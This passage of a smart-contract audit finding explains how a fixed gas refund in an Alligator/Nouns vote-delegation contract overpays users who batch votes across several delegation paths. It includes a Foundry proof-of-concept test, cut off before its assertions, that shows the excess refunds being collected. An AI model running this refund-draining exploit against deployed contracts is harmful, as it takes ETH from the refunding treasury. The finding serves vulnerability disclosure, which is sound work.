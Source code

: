 This is a fixed amount, which means that if less than 36k of overhead gas is used, the user is refunded more than the amount spent.

If multiple calls to `castRefundableVotesWithReasonBatched()` are batched into a single transaction, the actual gas spent per transaction will be lower than expected because:

1. The 20k transaction overhead will only be spent once, so will result in 20k gas profit each subsequent transaction.
2. The address for receiving ETH will be "warm", which will save an additional ~2.5k gas per transaction

A situation where a large number of these calls are batched could easily be created by a user splitting their Nouns across multiple accounts, and setting up different delegation paths for each. In this situation, separate calls could be made to vote with each Nouns and with each proposal.

**Proof of Concept**

To prove the exploit, I created a test where two users delegate to Alice, and rather than using the "batched" transaction, she runs a loop to call both transactions separately.

```solidity
function testZach__StealUsingRefund() public {
    vm.deal(address(alligator), 10 ether);

    address[] memory authority1 = new address[](2);
    authority1[0] = address(this);
    authority1[1] = address(Utils.alice);

    address[][] memory authorities1 = new address[][](1);
    authorities1[0] = authority1;

    address[] memory authority2 = new address[](2);
    authority2[0] = address(Utils.bob);
    authority2[1] = address(Utils.alice);

    address[][] memory authorities2 = new address[][](1);
    authorities2[0] = authority2;

    address[][][] memory authorities = new address[][][](2);
    authorities[0] = authorities1;
    authorities[1] = authorities2;

    Rules[] memory baseRulesBatch = new Rules[](2);
    baseRulesBatch[0] = baseRules;
    baseRulesBatch[1] = baseRules;

    alligator.subDelegateAll(Utils.alice, baseRules);
    alligator.create(Utils.bob, baseRules, true); // selfProxy

    vm.prank(Utils.bob);
    alligator.subDelegateAll(Utils.alice, baseRules);

    uint balanceBefore = Utils.alice.balance;
    uint gasBefore = gasleft();

    vm.startPrank(Utils.alice, Utils.alice);
    for (uint i = 0; i < 2; i++) {
        alligator.castRefundableVotesWithReasonBatched(baseRulesBatch, authorities[i], 1, 1, "");
    }

    uint gasAfter = gasleft();

    // Adjust Alice balance as if she paid for gas
    uint gasUsed = gasBefore - gasAfter;
    uint gasCost = gasUsed * tx.gasprice;
    uint balanceAfter = Utils.alice.balance - gasCost;
```